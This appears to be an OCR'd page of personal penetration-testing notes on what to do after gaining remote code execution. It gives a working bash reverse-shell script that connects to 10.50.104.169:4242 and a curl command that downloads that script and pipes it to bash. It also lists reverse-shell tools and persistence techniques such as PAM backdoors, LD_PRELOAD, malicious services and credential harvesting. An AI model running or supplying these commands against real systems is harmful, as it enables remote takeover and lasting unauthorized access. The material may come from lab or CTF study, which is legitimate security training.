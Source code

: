 
One thing to keep in mind that: How to get a reverse shell on a box once you have RCE:
- netcat 
- bash 
- python 
- perl


To start up a local web server on your attacking machine:
- http.server
- updog
- php

Reverse Shell
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.104.169/4242 0>&1
```

Now will use the RCE vulnerability and try to load the payload and trigger it using the bash command which will run the payload and we should get the reverse shell 
```
curl http://10.50.104.169:8080/rev_shell.sh|bash &
```

So what to do after we gained a decent foothold and have a stable shell. Like we don't want to lose our foothold and redo the work if the machine is reset or our shell get's terminated.

SO different methods for persistence: LD_PRELOAD Backdoored binaries PAM backdoor SSH keys Malicious Services Cronjob Credential harvesting



